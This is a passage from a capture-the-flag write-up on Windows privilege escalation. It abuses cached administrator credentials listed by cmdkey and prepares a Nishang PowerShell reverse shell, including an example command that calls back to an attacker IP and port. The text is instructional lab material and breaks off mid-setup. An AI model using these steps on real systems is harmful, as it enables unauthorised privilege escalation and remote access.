     
    C:\Users\security>cmdkey /list
    
    Currently stored credentials:
    
        Target: Domain:interactive=ACCESS\Administrator
        Type: Domain Password
        User: ACCESS\Administrator
    

Knowing that the administrator credentials are cached, there’s two ways to use
them.

### Privesc #1 - Use runas

For people used to Linux environments, `runas` can be quite frustrating. It
doesn’t let you just switch users in the same terminal like `su` or `sudo`. It
opens a new process in a new window. So I can’t do things like `runas type
\users\administrator\desktop\root.txt` and expect to see the results. I could
have it copy that file to something I could read. But more fun, I can just get
a shell.

#### Get Nishang

Since this is an easier box, I’ll walk through this in detail free free to
skip to the last bit of this section if you’re familiar already.

First, I’ll clone a copy of [Nishang](https://github.com/samratashok/nishang)
from github if I don’t already have it.

    
    
    root@kali:/opt# git clone https://github.com/samratashok/nishang.git
    Cloning into 'nishang'...
    remote: Enumerating objects: 1660, done.
    remote: Total 1660 (delta 0), reused 0 (delta 0), pack-reused 1660
    Receiving objects: 100% (1660/1660), 6.62 MiB | 776.00 KiB/s, done.
    Resolving deltas: 100% (1040/1040), done.
    

I’ll make a `www` directory to serve from, and I’ll grab a copy of the shell
I’m going to use:

    
    
    root@kali:/opt# mkdir ~/www
    root@kali:/opt# cp nishang/Shells/Invoke-PowerShellTcp.ps1 ~/www/
    

#### Prep Shell

If I open up the PowerShell script and look at the usage, I’ll see that I want
to do a reverse shell, so something like this:

    
    
    .EXAMPLE
    PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
    

I’m going to have the Access box `iex` this script. As it is by default, that
will just load all the functions in this script into the current PowerShell
session. But I want to actually run one of those function. So I’ll add that
line to the bottom of the script:

